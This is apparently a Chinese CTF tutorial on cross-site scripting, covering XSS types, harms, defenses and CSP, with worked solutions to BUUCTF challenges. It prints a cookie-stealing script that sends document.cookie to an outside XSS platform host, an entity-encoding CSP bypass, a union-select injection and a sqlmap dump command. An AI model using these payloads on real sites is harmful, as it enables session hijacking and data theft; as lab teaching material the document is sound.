


# CTF WEB专题--XSS跨站点脚本攻击

---
### WEB解题过程：
- 总览全局：大体掌握题目有哪些、哪些可用的功能（怎么写出来的）、以及可能存在的漏洞的功能点
- 步步为营：测试各个功能点，简称fuzz环节。对于有代码的题目，则进行初步的代码审计
- 深入探索：对于可能存在漏洞的地方，深入研究，依据网上已存在的资料进行辅佐，编写poc
- 柳暗花明：对于一般ctf题目，flag都有明确的位置说明，通过正确解题思路一定可以获取到。最通常的flag放置的位置在根目录下，以文件形式存储。

---
### WEB题目的套路
- 根据hint识别出题方向
出题人会在题目的下面方给出的提示，例如登录一下好吗、flag在根目录
- 切忌钻牛角尖、多方向解题 
在某一个点认为是sql注入，尝试了各种办法没有绕过去，可能事一套组合拳，就不一定要用拆解表拿到一些数据，可能通过其他的方式来拿到一些值，再去解题。
一题多解，例如在存在文件包含的同时并存在着文件读取
- 巧用搜索引擎
代码高亮题，代码某一部分的函数是有漏洞的，前后截一下，前面放上ctf的关键字，尽量用英文搜，如ctf parse_url。
**尽量用英文搜**

---

## 什么是XSS
- Cross Site Scripting :跨站脚本
- Cascading Style Sheets : 层叠样式表

---
## XSS产生的原因
在用户去访问浏览器，执行一些没有预期到的脚本

---


---
## XSS类型  
#### 反射型 
- 服务端返回脚本，客户端执行，非持久性
- CTF比赛中出现的场景：加载图片处、编辑用户名处

#### 存储型
- 后台存储了非法脚本，并前端直接展示，持久性
- CTF比赛中出现的场景：留言板，给管理员发一条留言好吗？
#### DOM型

- CTF比赛中出现的场景：动态执行JavaScript语句，更改dom树结构

---

**在ctf题中最多的是反射和存储型xss、DOM型的很少**

---
## XSS的危害
- 挂马
- 盗取用户的cookie
- DDOS(拒绝服务攻击)
- 钓鱼攻击
- 删除目标文章、恶意篡改数据、嫁祸
- 劫持用户 web行为。甚至进一步渗透内网
- 爆发 web2.0 蠕虫

---
## XSS存在的原因
url中参数，用户输入的地方没有做充分的过滤，有一些不合法的参数和输入回到我们的web服务器，那用户在访问前端页面的时候就会把不合法的代码执行，导致这样一个后果。

---
### 一个小的例子
```php
<?php
echo $_GET["abc"];
#echo "&#172";
>
```
`abc=`

---
## XSS的防范
`对输入进行过滤，对输出进行编码。`
1. 输入处理
用户的输入输出、url、post请求参数

2. 输出处理
编码，转义（html entity）
    ```
    < : &It
    > : &gt
    \:\\
    / :\/
    ```
 3. cookie 设置为 http-only

 4. 编程语言防御代码（不同编程语言有对应的库进行转义）
---

## XSS题目对能力的要求
- 能够找到XSS的点
- 能够绕过浏览器内置的保护机制以及程序本身的过滤机制插入XSS脚本进行利用
- 会使用XSS盲打平台
  
### 常见的XSS出题方式
- 替换
- [内容安全策略( CSP )](http://www.ruanyifeng.com/blog/2016/09/csp.html)

---
## 例题1  **BUU XSS COURSE 1**
- 考察点：xss跨站点脚本
```
payload1:<script>alert(111)</script>
payload2:
payload3:
```
[HTML  标签](https://www.w3school.com.cn/tags/tag_img.asp)
[HTML 事件属性](https://www.w3school.com.cn/tags/html_ref_eventattributes.asp)

---
## 例题1  **BUU XSS COURSE 1**
使用buuctf的xss Platform提供的代码构造payload:

> 

工具：
[EditThisCookie](https://chrome.google.com/webstore/detail/editthiscookie/fngmhnnpilhplaeedifhccceomclgfbg)或[brupsuite](https://portswigger.net/burp)修改请求的cookie

---
## 例题2 **[CISCN2019 华东北赛区]Web2**
- 考察点：储存型 XSS 与过滤绕过、sql注入

---


---
## 例题2 **[CISCN2019 华东北赛区]Web2**  



---
## 例题2 **[CISCN2019 华东北赛区]Web2**
其中default-src 'self';'unsafe-inline' 'unsafe-eval'是什么意思
1. default-src 'self'：只允许加载站内资源
2. 'unsafe-inline'：允许执行页面内嵌的标签个事件监听函数
3. 'unsafe-eval'：允许将字符串当作代码执行，比如使用eval、setTimeout、setInterval等函数

**使用[HTML Markup](https://www.w3.org/MarkUp/html-spec/html-spec_13.html )来绕过**

---
## 例题2 **[CISCN2019 华东北赛区]Web2**
转换脚本

> in_str = "(function(){(window.location.href='http://xss.buuoj.cn/index.php?do=api&id=uavZKE&location='+escape((function(){try{return document.location.href}catch(e){return ''}})())+'&toplocation='+escape((function(){try{return top.location.href}catch(e){return ''}})())+'&cookie='+escape((function(){try{return document.cookie}catch(e){return ''}})())+'&opener='+escape((function(){try{return (window.opener && window.opener.location.href)?window.opener.location.href:''}catch(e){return ''}})());})();"
output = ""
for c in in_str:
    output += "&#" + str(ord(c))
print("<svg><script>eval&#40&#34" + output + "&#34&#41</script></svg>")

---
## 例题2 **[CISCN2019 华东北赛区]Web2**


---
## 例题2 **[CISCN2019 华东北赛区]Web2** 
在提交URL的地方需要提交验证码，验证码需要计算 ，下面为计算验证码脚本。
```python
import hashlib

for i in range(1,100000001):
    s=hashlib.md5(str(i).encode('utf-8')).hexdigest()[0:6]
    if s== "71bdc4":
        print(i)
        break
```
---
## 例题2 **[CISCN2019 华东北赛区]Web2**

测一下，发现应该是有 sql 注入的。
`-1 union select 'a','l','z'#`



---

那直接 sqlmap 跑跑试试

> sqlmap -u "http://b93b108d-d3f1-483b-8792-b57923b21dd1.node3.buuoj.cn/admin.php?id=22" --cookie="PHPSESSID=a12c2fc20734d96babeb90efb16ba48d" -T flag --dump --flush-session --fresh-queries

---
## 参考链接

[window.opener](https://www.runoob.com/jsref/prop-win-opener.html)
[CSP](https://www.cnblogs.com/lxl57610/p/7426326.html)
[CSP绕过方法总结-先知社区](https://xz.aliyun.com/t/5084#toc-15)
[CSP绕过方法总结-知乎](https://zhuanlan.zhihu.com/p/94246164)
[深入理解浏览器解析机制和XSS向量编码](http://bobao.360.cn/learning/detail/292.html )

---
## 练习题目
writeups：[1](https://github.com/lyy289065406/CTF-Solving-Reports/tree/master/xss-game/level-3)  [2](https://www.zhaoj.in/read-6100.html) 
1. **0x01 XSS 跨站脚本攻击**【中等】
    - 题目地址:[xss-game](https://xss-game.appspot.com/level3)
    - 思路：通过观察参数，发现url内容被直接写入了\标签，尝试构造payload，发现双引号被过滤，使用单引号成功触发xss

2. **0x02 XSS 跨站脚本攻击**【中等】
    - 题目地址:[web类 CISCN2019华东北赛区web2](https://buuoj.cn/challenges)
    - 思路：找到XSS注入点，绕过csp限制，获取管理员的cookie，使用管理员的cookie登录，sql注入得到flag  

